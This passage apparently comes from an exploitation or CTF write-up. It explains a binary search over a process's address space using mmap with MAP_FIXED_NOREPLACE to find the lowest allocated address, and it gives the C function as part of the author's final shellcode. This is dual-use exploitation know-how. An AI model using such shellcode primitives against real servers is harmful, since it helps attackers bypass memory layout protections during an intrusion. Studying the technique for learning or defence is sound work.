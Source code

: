 (Notice we want to `munmap` the region if we succeeded, in order to prevent from creating side-effect on the process memory space).



### Binary search using `mmap`

Using `MAP_FIXED_NOREPLACE` (and yes, don't worry - I validated that the server is kernel 4.17+ and the flag is available), we can binary search the memory in order to find the lowest allocated address!

The algorithm will look something like that (classic binary search):

1. Start with `low=0x10000` (minimal address for mapping - because of [`mmap_min_addr`](https://wiki.debian.org/mmap_min_addr)) and `high=0x7ffffffff000` (maximal userspace address in 64-bit).
2. Calculate `mid=(low+high)/2`.
3. Check if the range `[low, mid)` has any allocations (using above `MAP_FIXED_NOREPLACE` technique).
   1. If it does - set `high=mid`.
   2. Otherwise - set `low=mid`.
4. Go to step 2 until convergence between `low` and `high`.

This will (very quickly) find the lowest allocated address in the address space!

How it looks in our final shellcode:

```c
#define MIN_ADDR (0x10000)
#define MAX_ADDR (0x7ffffffff000)

// Find the lowest address currently allocated in the address space
static uintptr_t find_lowest_allocated_addr(void)
{
    uintptr_t start_addr = MIN_ADDR;
    uintptr_t end_addr = MAX_ADDR;

    // Binary search
    while ((end_addr - start_addr) > PAGE_SIZE)
    {
        uintptr_t guess_addr = PAGE_ALIGN((start_addr + end_addr) / 2);

        size_t allocation_size = guess_addr - start_addr;
        if (!can_be_replaced(start_addr, allocation_size))
        {
            end_addr = guess_addr;
        }
        else
        {
            start_addr = guess_addr;
        }
    }

    // Check if we need to return "start_addr" or "end_addr"
    if (!can_be_replaced(start_addr, PAGE_SIZE))
    {
        return start_addr;
    }
    return end_addr;
}
```
